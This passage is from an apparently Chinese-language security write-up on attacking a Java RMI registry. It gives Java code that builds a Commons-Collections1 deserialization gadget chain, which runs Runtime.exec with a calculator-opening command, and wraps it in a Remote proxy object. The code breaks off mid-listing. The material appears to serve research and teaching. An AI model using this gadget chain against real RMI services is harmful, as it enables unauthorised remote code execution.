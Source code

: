 `Demo`代码. 当调用`unbind`或者`lookup`时, 只允许传递字符串, 所以没法传递恶意对象, 这个问题有几种办法来解决:
 - 伪造连接请求
 - `rasp hook`请求代码, 修改发送数据

```java
package org.h3rmesk1t.rmi;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import sun.rmi.server.UnicastRef;

import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;
import java.io.ObjectOutput;
import java.lang.reflect.Field;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;


/**
 * @Author: H3rmesk1t
 * @Data: 2022/1/30 1:42 上午
 */
public class RMIClientAttackDemo2 {
    public static void main(String[] args) throws Exception {

        // Commons-Collection1链
        Transformer[] transformer = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"open -a /System/Applications/Calculator.app"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformer);
        Map hashMap = new HashMap();
        hashMap.put("value", "d1no");
        Map transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);
        Class<?> h3rmesk1t = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = h3rmesk1t.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class, transformedMap);

        // 将代理对象转换为了Remote对象
        Remote r = (Remote) Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[]{Remote.class}, invocationHandler);

        // 获取远程对象实例
```